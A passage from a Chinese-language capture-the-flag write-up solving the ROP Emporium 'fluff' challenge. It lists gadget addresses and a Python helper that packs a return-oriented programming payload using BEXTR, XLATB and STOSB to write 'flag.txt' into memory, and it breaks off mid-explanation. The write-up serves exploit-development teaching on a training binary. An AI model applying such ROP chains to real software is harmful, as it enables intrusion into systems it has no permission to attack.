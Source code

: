 # ROP Emporium - Fluff 挑戰解題

## 概述

這是 ROP Emporium 的 `fluff` 挑戰的解題腳本。該挑戰要求我們使用一些不尋常的 x86 指令來構建 ROP 鏈，最終讀取並印出 `flag.txt` 文件的內容。

## 挑戰分析

### 目標
- 在 BSS 段中構建字符串 "flag.txt"
- 調用 `print_file` 函數來讀取並顯示文件內容

### 關鍵 Gadgets

```assembly
gadget1: 0x400628  # xlatb; ret
gadget2: 0x40062a  # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret  
gadget3: 0x400639  # stosb byte ptr [rdi], al; ret
```

### 核心技術

這個挑戰使用三個特殊的 x86 指令來實現字節級別的內存操作：

1. **BEXTR** - 位提取指令，用於設置 RBX 寄存器
2. **XLATB** - 表格查找指令，從內存讀取字節到 AL
3. **STOSB** - 存儲字符串指令，將 AL 的值寫入內存

## 工作流程

整個攻擊分為三個步驟的循環：

```
1. BEXTR  → 將目標字符的地址放入 RBX
2. XLATB  → 從 RBX 地址讀取字節到 AL  
3. STOSB  → 將 AL 中的字節寫入目標位置
```

### 步驟詳解

#### 1. 設置 RBX (使用 BEXTR)
```python
def set_rbx(addr):
    rdx = p8(32) + p8(32) + p16(0) + p32(0)  # BEXTR 參數
    rcx = p32(0) + p32(addr)                  # 目標地址
    payload = p64(gadget2) + rdx + rcx
    return payload
```

#### 2. 讀取字節 (使用 XLATB)
- `xlatb` 指令從 `[rbx + al]` 地址讀取一個字節到 `al`
- 需要考慮 AL 寄存器的當前值來計算正確的源地址
